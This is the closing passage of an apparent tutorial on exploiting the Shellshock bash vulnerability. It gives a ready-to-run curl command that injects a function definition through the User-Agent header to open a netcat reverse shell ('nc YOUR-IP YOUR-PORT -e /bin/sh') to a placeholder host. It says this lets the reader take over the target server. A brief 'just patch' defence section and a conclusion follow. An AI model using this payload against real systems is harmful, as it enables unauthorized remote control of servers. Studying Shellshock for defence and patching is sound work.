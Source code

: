 **Bash Command**

```html
curl -k -H 'User-Agent: () { :;}; /bin/bash -c "nc YOUR-IP YOUR-PORT -e /bin/sh"' http://localhost:8080/cgi-bin/vulnerable
```

You are done !! If your targeted website is vulnerable to CVE-2014-7169 exploit, a session will be created in your **Metasploit** allowing you to take over the targeted server.

### How To Protect Myself From Shellshock Vulnerabilities?

The answer is simple: patch your system. If your system is not yet patched, you have no one to blame but yourself. This vulnerability has been out for years, and pretty much all systems have patches available. To cut short, the best way to protect yourself against this type of vulnerability is to keep your system up to date applying all the fixes released for this exploit.

If you have any questions about this article, any feedback, suggestion, if you want to share your thoughts with us or either if you would like to join the community and contribute, please feel free to do it using the below comment form.

* * *

## Conclusion

The ShellShock vulnerability (CVE-2014-6271), discovered in 2014, remains a persistent threat to servers worldwide. Despite patches being available for several years, a significant number of servers still harbor this flaw. Exploiting ShellShock allows attackers to override environment restrictions and execute arbitrary shell commands. Internet-facing services relying on the Unix Bash shell are particularly vulnerable, potentially granting unauthorized access to computer systems. Vigilance and timely updates are crucial to mitigate this ongoing security risk.